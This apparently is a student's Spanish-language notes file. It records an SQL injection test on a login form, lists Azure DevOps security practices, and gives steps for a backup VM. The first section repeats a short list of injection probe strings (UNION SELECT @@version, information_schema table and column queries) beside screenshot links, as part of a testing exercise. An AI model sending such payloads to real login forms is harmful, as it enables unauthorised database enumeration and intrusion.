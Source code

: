 prueba de inyesiones sql
![image](https://github.com/Echavarriad/Doc/assets/76740912/ec9d2385-1144-4567-849b-78f7bc66f018)

atravez de los campos del formulario de login se realizaron diferentes medio de princilapmnete realizado querys sql apuntanto a diferntes tablas tenineod el conocimiento de estas

querys
' UNION SELECT @@version -- 
' SELECT * FROM information_schema.tables
' SELECT * FROM information_schema.columns WHERE table_name = 'usuarios'
' http://insecure-application.com/products?category=keyboards
' SELECT * FROM users WHERE username = 'nick_name' AND password = 'password'

![image](https://github.com/Echavarriad/Doc/assets/76740912/4d8276e1-419c-47f6-8571-97cec374e180)
querys
' UNION SELECT @@version -- 
' SELECT * FROM information_schema.tables
' SELECT * FROM information_schema.columns WHERE table_name = 'usuarios'
' http://insecure-application.com/products?category=keyboards
' SELECT * FROM users WHERE username = 'nick_name' AND password = 'password'

![image](https://github.com/Echavarriad/Doc/assets/76740912/a6a2c08c-9873-44a4-b477-cced4321effb)

querys
' UNION SELECT @@version -- 
' SELECT * FROM information_schema.tables
' SELECT * FROM information_schema.columns WHERE table_name = 'usuarios'
' http://insecure-application.com/products?category=keyboards
' SELECT * FROM users WHERE username = 'nick_name' AND password = 'password'


![image](https://github.com/Echavarriad/Doc/assets/76740912/da99f522-0903-4125-a622-c1d7893ef9cc)

querys
' UNION SELECT @@version -- 
' SELECT * FROM information_schema.tables
' SELECT * FROM information_schema.columns WHERE table_name = 'usuarios'
' http://insecure-application.com/products?category=keyboards
' SELECT * FROM users WHERE username = 'nick_name' AND password = 'password'


Utiliza el cifrado de datos en repositorios de Azure DevOps:

Azure DevOps cifra los datos almacenados en sus repositorios. Asegúrate de que tus repositorios de código, artefactos y otros recursos estén ubicados en Azure DevOps para aprovechar este cifrado.
Control de acceso y políticas de seguridad:

Configura un control de acceso adecuado para tus proyectos y repositorios. Define roles y permisos según el principio de "menos privilegios".
Implementa políticas de seguridad, como la revisión de código obligatoria y políticas de aprobación para garantizar que las implementaciones se realicen de manera segura.
Gestión de secretos y claves:

Utiliza Azure Key Vault para gestionar y proteger secretos y claves de cifrado utilizados en tus pipelines y aplicaciones.
No almacenes secretos directamente en el código o en archivos de configuración.
Seguridad en pipelines:

Utiliza las bibliotecas de variables seguras para almacenar secretos y credenciales en tus pipelines.
Evita exponer información sensible en registros o en el código de tus pipelines.
Cifrado de la comunicación:

Asegúrate de que tu comunicación con Azure DevOps esté cifrada mediante el uso de HTTPS. No transmitas datos confidenciales a través de canales no seguros.
Cumplimiento y auditoría:

Configura la auditoría y los registros de seguridad en Azure DevOps para realizar un seguimiento de las acciones y eventos relacionados con la seguridad.
Seguridad de las cuentas de usuario:

Fomenta el uso de la autenticación de múltiples factores (MFA) para proteger las cuentas de usuario.
Realiza revisiones periódicas de los accesos y permisos de usuario para garantizar que solo las personas autorizadas tengan acceso.
Capacitación y concienciación:

Proporciona formación en seguridad a tu equipo para que estén al tanto de las mejores prácticas de seguridad y cómo utilizar Azure DevOps de manera segura.
Actualizaciones y parches:

Mantén actualizados tus recursos y componentes en Azure DevOps para asegurarte de que estén protegidos contra vulnerabilidades conocidas.
Pruebas de seguridad:

Realiza pruebas de seguridad regulares en tu aplicación y en tus pipelines para identificar y remediar posibles vulnerabilidades.
Documentación y políticas de seguridad:

Documenta las políticas y procedimientos de seguridad específicos para tu organización y proyectos.
Comunica estas políticas y procedimientos a todo el equipo de desarrollo.


coapide se seguridad esclavo

Requisitos previos:

Debes tener acceso a una plataforma de virtualización (por ejemplo, VMware, Hyper-V, VirtualBox) o a un servicio en la nube (como Azure, AWS o Google Cloud) donde puedas crear y administrar VMs.
Necesitas espacio de almacenamiento adecuado para almacenar las copias de seguridad. Puedes utilizar un disco adjunto a la VM o un recurso de almacenamiento en la nube.
Pasos para configurar la VM de copias de seguridad:

Creación de la VM:

Crea una nueva VM en tu plataforma de virtualización o en la nube. Asegúrate de que la VM tenga suficientes recursos (CPU, RAM y almacenamiento) para manejar las copias de seguridad.
Sistema Operativo:

Instala un sistema operativo en la VM. El sistema operativo puede ser Windows Server, Linux u otro que sea compatible con tus necesidades y herramientas de copia de seguridad.
Conexión a la Red:

Configura la VM para que tenga acceso a la red. Puedes asignar una dirección IP estática o utilizar DHCP, según tus necesidades.
Software de Copia de Seguridad:

Instala y configura el software de copia de seguridad en la VM. Puedes usar herramientas como Veeam, Bacula, Duplicati, o incluso las herramientas de copia de seguridad integradas del sistema operativo, como Windows Server Backup.
Conexión al Servidor de Origen:

Configura la VM para que pueda conectarse al servidor que deseas respaldar. Esto puede implicar configurar credenciales de acceso y permisos de red.
Programación de Copias de Seguridad:

Configura un programa de copias de seguridad en el software instalado en la VM. Define cuándo y con qué frecuencia se deben realizar las copias de seguridad. Esto puede incluir copias de seguridad completas, incrementales o diferenciales.
Almacenamiento de Copias de Seguridad:

Configura el destino de las copias de seguridad. Puedes guardar las copias de seguridad en el disco local de la VM, un dispositivo de almacenamiento adjunto o un servicio de almacenamiento en la nube. Asegúrate de que el almacenamiento sea seguro y redundante.
Verificación de Copias de Seguridad:

Implementa procedimientos para verificar y validar las copias de seguridad. Esto puede incluir la realización de restauraciones de prueba periódicas para garantizar que las copias de seguridad sean funcionales.
Seguridad:

Asegúrate de que la VM de copia de seguridad esté protegida con medidas de seguridad adecuadas, como cortafuegos y actualizaciones regulares.
Monitoreo y Alertas:

Configura un sistema de monitoreo y alertas para supervisar el estado de las copias de seguridad y recibir notificaciones en caso de problemas.
Documentación:

Documenta todos los procedimientos y configuraciones relacionados con las copias de seguridad en la VM. Esto facilitará la gestión y la recuperación en caso de desastres.
Pruebas y Mantenimiento Continuo:

Realiza pruebas periódicas de recuperación y mantenimiento continuo de la VM y las copias de seguridad para garantizar que todo funcione según lo previsto.
